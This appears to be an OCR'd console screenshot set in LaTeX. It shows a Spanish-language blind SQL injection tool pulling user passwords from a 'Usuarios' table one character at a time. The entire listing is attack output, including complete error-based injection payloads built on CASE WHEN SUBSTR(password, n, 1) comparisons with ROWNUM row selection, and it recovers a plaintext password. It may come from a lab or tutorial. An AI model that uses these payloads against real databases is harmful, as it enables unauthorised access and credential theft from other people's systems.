 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Extrayendo carácter 9 de 9 para la fila 2...
 OK Carácter 9: '1' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 9, 1) = '1') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 [+] Valor extraído para la fila 2: password1
 
 [+] Extrayendo datos para la fila 3...
 
 [+] Determinando la longitud de 'password' para la fila 3...
 FAIL Probando longitud 1 para la fila 3...
 FAIL Probando longitud 2 para la fila 3...
 FAIL Probando longitud 3 para la fila 3...
 FAIL Probando longitud 4 para la fila 3...
 FAIL Probando longitud 5 para la fila 3...
 FAIL Probando longitud 6 para la fila 3...
 FAIL Probando longitud 7 para la fila 3...
 FAIL Probando longitud 8 para la fila 3...
 OK Probando longitud 9 para la fila 3...
 [*] La longitud de 'password' en la fila 3 es: 9
 
 [+] Extrayendo el valor de 'password' para la fila 3...
 
 [+] Extrayendo carácter 1 de 9 para la fila 3...
 OK Carácter 1: 'p' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'p') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 2 de 9 para la fila 3...
 OK Carácter 2: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 2, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 3 de 9 para la fila 3...
 OK Carácter 3: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 3, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 4 de 9 para la fila 3...
 OK Carácter 4: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 4, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 5 de 9 para la fila 3...
 OK Carácter 5: 'w' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 5, 1) = 'w') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 

\end{lstlisting}
\end{document}
